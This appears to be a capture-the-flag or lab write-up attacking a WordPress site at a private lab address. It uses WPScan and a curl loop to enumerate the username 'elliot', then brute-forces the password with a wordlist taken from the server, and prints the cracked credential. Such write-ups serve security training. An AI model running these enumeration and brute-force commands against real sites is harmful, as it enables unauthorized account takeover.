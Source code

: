 PART 1 
Project Goal:
To assess the security of the WordPress site at http://10.10.89.207, gather information about its version, users, and attempt to brute-force a password using a wordlist.

Work Process and Used Code

Running WPScan to gather basic information
wpscan --url http://10.10.89.207 --enumerate u --disable-tls-checks
Result:

WordPress version 4.3.1 found

XML-RPC enabled

Theme: twentyfifteen

No users found

Finding username by author ID enumeration
Since WPScan did not reveal any users, I manually enumerated author IDs:

for i in {1..10}; do
  curl -s -L "http://10.10.89.207/?author=$i" | grep -oP '(?<=/author/)[^/"]+'
done
Result:
Found username — elliot

Downloading the dictionary file from the server
Found a dictionary file fsocity.dic on the server and downloaded it:

curl http://10.10.89.207/fsocity.dic -o fsocity.dic
Cleaning the dictionary from duplicates
Sorted and removed duplicates in the dictionary:

sort -u fsocity.dic -o fsocity_clean.dic
Brute-forcing the password for user elliot via WPScan
Used this command to brute-force the password with the wordlist:

wpscan --url http://10.10.89.207 \
  --usernames elliot \
  --passwords fsocity_clean.dic \
  --disable-tls-checks
Final Result:
Successfully cracked the password:

Username: elliot
Password: ER28-0652

Conclusion:
The site is running an outdated WordPress version vulnerable to XML-RPC attacks.

The username elliot was discovered by enumerating author IDs.

Using the dictionary fsocity.dic found on the server helped quickly brute-force the password.

The gathered data allows unauthorized access to the site.
